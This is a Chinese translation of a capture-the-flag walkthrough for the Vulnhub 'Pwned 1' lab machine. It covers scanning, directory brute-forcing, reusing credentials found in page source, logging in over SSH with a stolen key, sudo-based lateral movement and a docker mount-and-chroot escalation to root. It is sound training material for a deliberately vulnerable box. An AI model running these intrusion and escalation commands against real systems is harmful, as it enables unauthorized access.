# Vulnhub: Pwned 1 演练

> 原文：<https://infosecwriteups.com/vulnhub-pwned-1-walkthrough-af16ad8cdff9?source=collection_archive---------2----------------------->

从**vulnhub*Pwned 1***的下一篇文章中再次返回。你可以看看我刚刚发表的博客， [Vulnhub: VulnOS 2 演练](https://hellfire0x01.medium.com/vulnhub-vulnos-2-walkthrough-7ca0b9db013f)(随机地，我决定把它们链接起来，这样你就可以看看我以前的笔记了！).你可以从这里下载这个盒子，

[](https://www.vulnhub.com/entry/pwned-1,507/) [## Pwned: 1

### 该网站使用“cookies”为您提供最佳、最相关的体验。使用这个网站意味着你对…

www.vulnhub.com](https://www.vulnhub.com/entry/pwned-1,507/) 

**扫描网络**

使用`netdiscover`我们将找出机器的 IP 地址

```
sudo netdiscover -r 10.0.2.0/24
```



现在我们知道了机器的 IP 地址，我们可能想知道哪些端口是打开的，服务正在运行，等等，我们将通过 nmap 实现这一点，我们将把输出保存在 **nmap.txt** 中。

```
sudo nmap -A -T4 -p- 10.0.2.65 -oN nmap_scan
```



我们可以看到 3 个端口是打开的，FTP(21)、SSH(22)、Web-server(80)都在机器上运行。

我们来访问 [http://10.0.2.65/](http://10.0.2.65/) ，



在网页上，我们可以看到一个攻击者留给我们的纸条，攻击者的名字叫 **Annlynn** 。让我们查看源代码，看看是否有什么东西，

向下滚动，在评论中有一条留言，



现在，我们将使用 **gobuster** 工具暴力破解目录，

```
gobuster dir -u http://10.0.2.65/ -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium -q 2>/dev/null
```



有两条路可以走。

我们去拜访一下 **/nothing** 看看有没有什么，



点击 nothing.html 的**，我们得到了这个页面，**

****

**这似乎是来自黑客的消息。让我们检查一下源代码，**

****

**还有另一个信息，但这还不够。让我们访问 **/hidden_text** 路径，**

****

**有一个 **secret.dic** 文件。让我们检查一下里面有什么。**

****

**这似乎是路径，可能包含一些东西。检查完之后，我遇到了 **/pwned.vuln** ，它把我带到了登录页面，**

****

**似乎这是一个登录页面。在尝试登录网页之前，让我们看一下源代码，因为有时会有硬编码到源代码中的凭据(非常糟糕的主意！！！).**

****

**看看我们找到了什么。似乎这些是在机器上运行的 FTP 服务的凭证。我们试着登录吧！**

```
ftp 10.0.2.65
```

**使用 **ftpuser** 凭证，我们已经成功登录 ftp 服务。**

**我们来列举一下，**

****

**有一个 **note.txt** 和 **id_rsa** 文件。我们将使用 get 命令将它们下载到本地系统上，**

```
get id_rsa
get note.txt
```

****

**文件被下载到我们的机器上。**

**现在让我们试着多列举一点，**

****

**换目录后，我们发现有一个 **messenger.sh** 二进制，除了 **ariana** 用户，还有 **selena** 用户。但是我们不能将目录更改为 selena 用户。我们走出口。**

**现在，我们来看看 **note.txt** 文件，**

```
cat note.txt
```

****

**这个注释表明我们已经足够接近作为 ariana 用户登录 SSH 服务了。**

**现在，让我们看看 **id_rsa** key，**

```
cat id_rsa
```

****

**我们将更改它的权限，使 ssh 可以作为 ariana 用户登录。**

```
chmod 600 id_rsa
```

**为密钥授予适当的权限。现在，让我们通过 SSH 服务登录。**

```
ssh -i id_rsa ariana@10.0.2.65
```

****

**我们现在是阿丽亚娜用户。我们来枚举查找用户标志。**

**做 **ls** ，**

****

**我们有用户 1 标志吗？似乎系统里还有另一个用户。**

```
cat user1.txt
```

****

**除了 flag1，还有一条信息说我们需要更加努力才能成为 root。**

**我们会找出**阿丽亚娜-个人日记**的内容，**

```
cat ariana-personal.diary
```

****

**看来这是我们横向升级的线索。**

**列举一些能帮助我们提升 selena 用户特权的东西，**

****

**我们不能。**

**我试图检查内核版本和操作系统；这是因为通常我们大部分时间都会得到旧版本，这有助于我们获得 root。然而，在这种情况下，它不起作用。**

**让我们检查一下哪个二进制文件或命令可以作为 root 用户运行，**

```
sudo -l
```

****

**我们得到了一个二进制名 **messenger.sh** 可以通过 **selena** 用户运行。**

**让我们看看 messenger.sh 二进制文件的内容，**

```
cat messenger.sh
```

****

**这看起来像是给用户发送信息的信使。**

**我们将以 selena 用户的身份在/home 目录下运行这个二进制文件，**

```
sudo -l selena /home/messenger.sh
```

****

**我们获得了塞莱娜用户的权限。**

**现在，我们将使用 python 升级 shell，然后让我们看看 user2 标志，**

```
python3 -c 'import pty; pty.spawn("/bin/bash")' 
cd selena 
ls
```

****

**我们有两份文件。让我们先看看 user2 标志。**

```
cat user2.txt
```

****

**我们有用户 2 标志。现在，让我们来看看**赛琳娜-personal.diary** ，**

```
cat selena-personal.diary
```

****

**这条消息对我们毫无意义。现在，是特权升级的时候了。**

**使用`id` 命令，我们可以看到机器上正在运行什么，**

****

**docker 服务正在运行。我们可以滥用 docker 来获取系统外壳。**

**让我们看看 docker 上运行的图像，**

```
docker images
```

****

**有一个 privesc 映像正在运行。我们将使用这个映像来获取系统外壳，**

**通过运行这个命令，**

```
docker run -v /:/mnt --rm -it privesc chroot /mnt /bin/bash
```

****

**我们有根权限。这可以在 GTFOBins 上找到，(用 privesc 代替 alpine)。**

**最后，读取根标志输出，**

```
cat /root/root.txt
```

****

**我们已经成功利用了这个盒子。**

**会和你们分享另一个，在那之前喝一口水！回见(:**